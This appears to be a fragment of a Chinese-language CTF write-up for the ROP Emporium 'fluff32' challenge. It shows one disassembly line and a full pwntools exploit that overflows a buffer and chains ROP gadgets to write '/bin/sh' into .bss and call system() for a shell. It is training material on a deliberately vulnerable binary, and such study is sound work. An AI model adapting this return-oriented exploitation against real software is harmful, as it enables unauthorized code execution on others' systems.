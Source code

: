 ```
 804869e:       66 90                   xchg   ax,ax

```

最終 payload

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('/tmp/p/fluff32')

trash = 'a'*44
system_plt = 0x8048430
bss = 0x0804b000-0x100
mov_decx_edx = 0x08048693
# mov dword ptr [ecx], edx ; pop ebp ; pop ebx ; xor byte ptr [ecx], bl ; ret
pop_ebx_ret = 0x080483e1
inc_ecx = 0x080488ba
xchg_edx_ecx = 0x08048689
# xchg edx, ecx ; pop ebp ; mov edx, 0xdefaced0 ; ret
xor_edx_ebx = 0x0804867b
# xor edx, ebx ; pop ebp ; mov edi, 0xdeadbabe ; ret
xor_edx_edx = 0x08048671
# xor edx, edx ; pop esi ; mov ebp, 0xcafebabe ; ret

# set ecx = bss
payload = flat([ pop_ebx_ret, bss])
payload+= flat([ xor_edx_edx, 0xdeadbeef, xor_edx_ebx, 0xdeadbeef, xchg_edx_ecx, 0xdeadbeef ])

# set edx = '/bin'
payload+= flat([ pop_ebx_ret, '/bin', xor_edx_edx, 0xdeadbeef, xor_edx_ebx, 0xdeadbeef])

# mov [ecx] , edx
payload+= flat([ mov_decx_edx, 0, 0 ])

# set ecx = bss + 4
payload+= p32(inc_ecx)*4

# set edx = '/sh\x00'
payload+= flat([ pop_ebx_ret, '/sh\x00', xor_edx_edx, 0xdeadbeef, xor_edx_ebx, 0xdeadbeef])

# mov [ecx] , edx
payload+= flat([ mov_decx_edx, 0, 0 ])


payload+= flat([ system_plt, bss, bss])

r.sendline(trash + payload)
r.interactive()
```
